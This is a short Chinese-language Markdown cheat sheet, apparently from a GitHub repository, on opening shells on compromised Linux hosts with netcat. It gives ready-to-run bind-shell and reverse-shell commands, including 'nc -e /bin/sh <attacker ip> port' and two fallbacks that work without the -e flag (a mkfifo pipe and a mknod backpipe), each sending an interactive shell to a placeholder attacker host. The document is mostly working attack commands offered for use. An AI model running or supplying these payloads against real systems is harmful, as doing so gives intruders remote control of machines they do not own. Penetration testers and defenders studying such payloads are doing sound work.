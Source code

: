 # Linux Shell 反弹

*反弹shell之前必须获取命令执行权限*

## NC

- nc 正向shell

    被控端开启监听

    ```sh
    nc -lvvp port -e /bin/sh
    ```

    控制端发起连接：

    ```sh
    nc <target ip> port
    # 这里的port就是被控端监听的端口
    ```

- nc 反向 shell

    控制端开启监听：

    ```sh
    nc -lvvp port
    ```

    被控端发起连接：

    ```sh
    nc -e /bin/sh <attacker ip> port
    # port = attacker listening port
    ```

- 无 -e 参数反弹shell

    控制端开启监听：

    ```sh
    nc -lvvp port
    ```

    被控端发起连接

    ```sh
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc attacker-ip port >/tmp/f
    ```

    或

    ```sh
    mknod backpipe p; nc attacker-ip port 0<backpipe | /bin/bash 1>backpipe 2>backpipe
    ```
